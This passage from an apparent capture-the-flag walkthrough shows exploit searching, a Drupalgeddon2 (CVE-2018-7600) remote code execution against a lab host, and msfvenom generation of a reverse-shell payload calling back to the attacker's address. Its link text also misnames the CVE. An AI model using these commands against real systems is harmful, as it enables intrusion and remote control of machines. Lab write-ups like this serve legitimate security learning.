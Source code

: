 Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting                       | exploits/php/webapps/25493.txt
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                                | exploits/php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                                      | exploits/php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                               | exploits/php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vulnerabilities | exploits/php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                            | exploits/php/remote/40130.rb
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                                            | exploits/php/webapps/44501.txt
------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

root@kali:~# 
{% endhighlight %}

By googling the following keyword, we can find the exploit for <a href="https://github.com/pimps/CVE-2018-7600">"CVE-2018-0762"</a>.<br>
At first, we have to install the prerequisites.
{% highlight shell %}
root@kali:~# pip install requests

---

root@kali:~# pip install bs4

---
{% endhighlight %}

Then, execute the python script like following.<br>
We got RCE and the username is "iusr"
{% highlight shell %}
root@kali:~/CVE-2018-7600# python drupa7-CVE-2018-7600.py -c "whoami" http://10.10.10.9
()
=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-zOmyPneEf5iyoz3yKt8zu5m59kxdtrcNPWZ1eaYNM7s
[*] Triggering exploit to execute: whoami
nt authority\iusr

root@kali:~/CVE-2018-7600# 
{% endhighlight %}

Next, to obtain a reverse shell, generate a payload with msfvenom.
{% highlight shell %}
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=1338 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
root@kali:~#
{% endhighlight %}
